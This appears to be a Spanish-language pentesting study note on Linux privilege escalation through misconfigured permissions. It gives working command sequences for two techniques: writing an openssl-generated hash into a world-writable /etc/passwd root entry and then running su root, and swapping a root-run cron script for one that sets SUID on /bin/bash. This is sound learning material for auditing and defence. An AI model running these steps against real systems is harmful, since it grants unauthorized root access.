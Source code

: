 # Abuso de permisos incorrectamente implementados

Tags: #Linux #PermisosIncorrectos  #Escalada #Root #Privilegios

En sistemas Linux, los archivos y directorios tienen permisos que se utilizan para controlar el acceso a ellos. Los permisos se dividen en tres categorías: propietario, grupo y otros. Cada categoría puede tener permisos de lectura, escritura y ejecución. Los permisos de un archivo pueden ser modificados por el propietario o por el superusuario del sistema.

El abuso de permisos incorrectamente implementados ocurre cuando los permisos de un archivo crítico son configurados incorrectamente, permitiendo a un usuario no autorizado acceder o modificar el archivo. Esto puede permitir a un atacante leer información confidencial, modificar archivos importantes, ejecutar comandos maliciosos o incluso obtener acceso de superusuario al sistema.

De esta forma, un atacante experimentado podría aprovecharse de esta falla para elevar sus privilegios en el mejor de los casos. Una de las herramientas encargadas de aplicar este reconocimiento en el sistema es ‘**lse**‘. Linux Smart Enumeration (LSE) es una herramienta de enumeración de seguridad para sistemas operativos basados en Linux, diseñada para ayudar a los administradores de sistemas y auditores de seguridad a identificar y evaluar vulnerabilidades y debilidades en la configuración del sistema.

LSE está diseñado para ser fácil de usar y proporciona una salida clara y legible para facilitar la identificación de problemas de seguridad. La herramienta utiliza comandos de Linux estándar y se ejecuta en la línea de comandos, lo que significa que no se requiere software adicional. Además, enumera una amplia gama de información del sistema, incluyendo usuarios, grupos, servicios, puertos abiertos, tareas programadas, permisos de archivos, variables de entorno y configuraciones del firewall, entre otros.

A continuación, se os proporciona el enlace directo al proyecto de GitHub correspondiente a esta herramienta:

- **Linux Smart Enumeration**: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)


## Permisos incorrectos

```bash 
❯ find / -writable 2>/dev/null | grep -vE "python3.10|proc"          # Podemos encontrar archivos que tengan capacidad de escritura
```

```bash
-rw-r--rw- 1 root root 8756 Feb 7 2022 /etc/passwd                   # Podemos encontrar que el /etc/passwd tiene los permisos mal implementados
```

Para este tipo de escalada:
* Primero debemos de ver que otros puedan  modificar el archivo /etc/passwd
* Después debemos de meter una passwd hardcodeada en la parte de **X** en root, en un formato hash correspondiente.

```python 
❯ cat /etc/passwd

root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

Las passwd las lee del archivo que esta en el **/etc/shadow** 
Pero para este tipo de escalada lo que haremos será que no le daremos la oportunidad de que al momento de poner la passwd la lea del shadow. Y que la passwd que lea será la que esta en el **/etc/passwd** haciéndola que la tome como prioritaria y así nosotros la podamos colocar.

```bash 
❯ openssl passwd                # Esta herramienta nos permite que para una palabra dada me genere un hash que es la propia passwd pero en un formato que el /etc/passwd logra interpretar, ya que por defecto no podemos colocar la passwd en texto claro
```

Después modificamos el **/etc/passwd** y agregamos el hash que nos arrojo la herramienta anterior. 

```python 
❯ nvim /etc/passwd

root:$1$MEkVfoo5$2ubSWdbi0QZcUuY6VkUBY.:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

Una vez modificado migramos al usuario root
```bash 
❯ su root                       # Cambiamos de usuario e ingresamos la palabra que utilizamos en la herramienta de openssl y la tomara como correcta porque la compara con el /etc/passwd
```

* También, podemos usar la herramienta de **lse.sh** o **LinPeas**

* Caso 2:
Cuando tenemos un archivo en nuestro dir que se esta ejecutando cada cierto tiempo y quien lo ejecuta es root. Tareas CRON 
```bash 
-rwxr-xr-x 1 root root 8756 Feb 7 2022 example.sh                   # Miramos sus privilegios y nos damos cuenta que no lo podemos modificar 
```

Pero como este archivo se encuentra en nuestro dir, lo que haríamos seria eliminarlo. 

```bash 
❯ rm example.sh                  # Eliminamos el archivo y despues nos creamos uno con el contenido que querramos que ejecute, claro con el mismo nombre del anterior
❯ nvim example.sh                
❯ chmod +x exmaple.sh 

# Le agregamos el contenido que queremos que se ejecute 
#!/bin/bash 
chmod u+s /bin/bash             # Haremos que cuando se ejecute nos otorgue un permiso SUID a la bash 
```

```bash 
❯ watch -n 1 ls -l /bin/bash                                       # Miramos cada seg el privilegio del /bin/bash
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /bin/bash                   # Miramos como ya tiene permisos SUID
```

